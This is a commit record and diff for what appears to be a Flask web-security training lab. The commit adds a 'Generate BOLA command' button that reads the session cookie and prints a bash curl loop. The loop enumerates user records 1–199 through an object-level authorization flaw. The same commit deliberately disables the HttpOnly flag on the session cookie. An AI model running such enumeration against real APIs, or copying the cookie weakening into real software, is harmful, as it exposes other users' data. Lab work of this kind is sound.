

Before and after one commit to spmpl-pl/spm-web-lab, a Flask app: page /wafpanel in a window 1280 px wide. Shown: the part 106-733 px from the top of the page, without its empty margins (285-994 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Added BOLA Command Generator

```diff
--- a/app.py
+++ b/app.py
@@ -13,9 +13,9 @@ load_dotenv("/var/www/spm-web-lab/.env")
 app = Flask(__name__)
 
 
-""
+
 app.secret_key = os.getenv("SECRET_KEY")  # Needed for sessions
-
+app.config["SESSION_COOKIE_HTTPONLY"] = False
 
 file_basedir = os.path.dirname(os.path.abspath(__file__))
 file_guestbook = Path( os.path.join(file_basedir, "GuestBookEntries.json"))
--- a/templates/wafpanel.html
+++ b/templates/wafpanel.html
@@ -4,7 +4,7 @@ content %}
 <!-- Main content -->
 <h1>WAF Panel</h1>
 
-<!-- GetGetSession Section -->
+
 <p>
   <b>Get Origin Headers</b><br />
   This function returns the origin server headers. To interpret the client
@@ -18,8 +18,27 @@ content %}
 </p>
 <button id="GetHeadersButton">Get Headers from the Origin Server</button>
 <div id="GetHeadersResult" class="result"></div>
+<br />
+
+<p>
+  <b>Generate BOLA command</b><br />
+  Click "Cenerate BOLA command" to generate ready to go BOLA exploitation command for bash.
+</p>
+<button id="GenerateBOLAButton">Generate BOLA</button>
+<div id="GenerateBOLAResult" class="result"></div>
+<br />
+
 
 <script>
+  function getCookie(name) {
+    const cookies = document.cookie.split("; ");
+    for (let c of cookies) {
+      const [key, value] = c.split("=");
+      if (key === name) return decodeURIComponent(value);
+    }
+    return null; // cookie not found
+  }
+
   document.getElementById("GetHeadersButton").onclick = () => {
     fetch("/api/GetHeaders")
       .then((res) => res.json())
@@ -30,6 +49,20 @@ content %}
         //document.getElementById('GetHeadersResult').innerText = JSON.stringify(data);
       });
   };
+
+  document.getElementById("GenerateBOLAButton").onclick = () => {
+    fetch("/api/GetSession")
+        .then((res) => res.json())
+        .then((data) => {
+          if (data.username) {
+            document.getElementById("GenerateBOLAResult").textContent =
+             'n=1; while [[ $n -lt 200 ]]; do echo "===Got record ID: $n"; curl --location --request POST "http://lab.spm.pl/api/GetUserData" --header "Accept: application/json" --header "Content-Type: application/json" -b "session=' + getCookie("session") + '" --data-raw "{\\\"id\\\":\\\"$n\\\"}" -s; echo ""; echo ""; n=$((n+1)); done'
+          } else {
+            document.getElementById("GenerateBOLAResult").textContent =
+              "nie ma sesji";
+          }
+        });
+  };
 </script>
 
 
```
